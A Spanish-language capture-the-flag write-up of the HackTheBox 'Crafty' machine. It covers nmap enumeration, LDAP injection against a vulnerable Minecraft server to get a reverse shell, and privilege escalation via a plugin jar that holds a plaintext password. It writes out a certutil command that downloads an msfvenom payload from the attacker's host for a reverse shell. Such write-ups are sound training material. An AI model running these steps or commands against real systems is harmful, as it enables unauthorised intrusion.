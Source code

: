### Ping 
```python
ping -c 1 10.10.11.249
PING 10.10.11.249 (10.10.11.249) 56(84) bytes of data.
64 bytes from 10.10.11.249: icmp_seq=1 ttl=127 time=235 ms

--- 10.10.11.249 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 235.207/235.207/235.207/0.000 ms
```

### TTL 127= Wondows
### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 22:17 EST
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.53% done; ETC: 22:18 (0:00:14 remaining)
Nmap scan report for 10.10.11.249
Host is up (0.097s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
10.10.11.249:25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 3/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Ports: 80/http - 25565/tcp

### Enumeración del puerto 80

agregamos el subdominio al que nos esta redirigiendo en el /etc/host

![[Pasted image 20240210232547.png]]

pagina web/ tenemos lo que parece ser un subdominio diferente llamdo play.crafty.htb

![[Pasted image 20240210233121.png]]

### Fuzzing con gobuster

![[Pasted image 20240210234241.png]]

### Tlauncher
debido a que tenemos un servidor de minecraft usaremos tlauncher para conectarnos

![[Pasted image 20240305171536.png]]

### Enumeracion del servidor 
con una pequeña busqyeda encontramos que esta version es vulnerable a una inyeccion de ldap

![[Pasted image 20240305191518.png]]

tenemos esta Poc que nos sera muy util

![[Pasted image 20240305191624.png]]
para ejecutar esto necesitamos Java JDK

### pyCraft
usaremos pycraft para hacer la inyección ldap al servidor

![[Pasted image 20240305192830.png]]

### Poc
"debemos editar el exploit para que ejecute una cmd.exe.... perfecto tenemos conexión y estamos redirigiendo el trafico al puerto 9001

![[Pasted image 20240305192930.png]]

### Redireccionamiento de puerto
estaremos a la escucha por el 9001 donde estaremos redireccionando la inyecccion ldap

![[Pasted image 20240305193720.png]]

### star.py
el script star.py no solicita el nombre de usuario para la segunda opcion nos pide dejarlo en blanco para el modo offline y nos solicita el host+port donde esta corriendo el servidor de minecraft

![[Pasted image 20240305193141.png]]

### Recibimos conexión 

![[Pasted image 20240305193218.png]]

### Escalada De privilegios
en el directorio de plugins hemos conseguido uno que parece interesante. 

![[Pasted image 20240305195827.png]]

### Transferencia de archivo
vamos a enviarnos este archivo a nuestra maquina atacante para poder analizarlo

![[Pasted image 20240305220312.png]]

![[Pasted image 20240305220343.png]]

### impacket-smbserver
usaremos impacket-smbserver para crear un servidor compartido 
![[Pasted image 20240305222529.png]]

copiamos el archivo especificando la ip y el directorio donde esta corriendo el servidor

![[Pasted image 20240305222609.png]]

### analizando el archivo
usaremos jar para extraer la informacion del archivo

![[Pasted image 20240305224247.png]]

tenemos una estructura de archivos bien organizada lo que parece ser un archivo.jar completo
### JD-GUI
usaremos jd-gui para poder leer este archivo.jar

![[Pasted image 20240305225321.png]]
tenemos lo que parece ser unas credenciales

```python
$SecPass = ConvertTo-SecureStrings 's67u84zKq8IXw' -AsPlainText -Force
```

### msfvenom
creamos un payload con msfvenom y lo moveremos a la ruta /var/www/html
![[Pasted image 20240307210028.png]]

### msfconsole
usaremos el multi/handler
![[Pasted image 20240307203956.png]]

### multi/handler
estaremos escuchando con el multi/handler para intentar conserguir una reverse shell
![[Pasted image 20240307210748.png]]

### http.server
creamos un servidor para poder compartir el archivo
![[Pasted image 20240307210833.png]]

### transferencia de archivo
subiremos el payload a la maquina victima usando el comando 
```python
	certutil -urlcache -f http://<tun0 IP>:4245/expl.exe %temp%/expl.exe
```

![[Pasted image 20240307211011.png]]

ejecutamos el payload
![[Pasted image 20240307211305.png]]

### 
